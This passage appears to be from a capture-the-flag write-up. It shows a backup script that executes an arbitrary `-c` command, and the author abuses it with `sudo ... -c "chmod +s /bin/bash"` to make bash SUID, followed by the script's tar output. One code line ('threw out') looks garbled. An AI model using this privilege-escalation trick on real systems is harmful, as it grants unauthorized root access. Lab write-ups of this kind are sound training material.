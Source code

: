 ```bash
# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
threw out
echo "Backup finished"

cmd=$($command)
echo $cmd

```

We are going to try to execute the command: `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"`, since, from what is read in the script, this is possible.

When executing it, I got an output like this:

```
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5 .mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
```
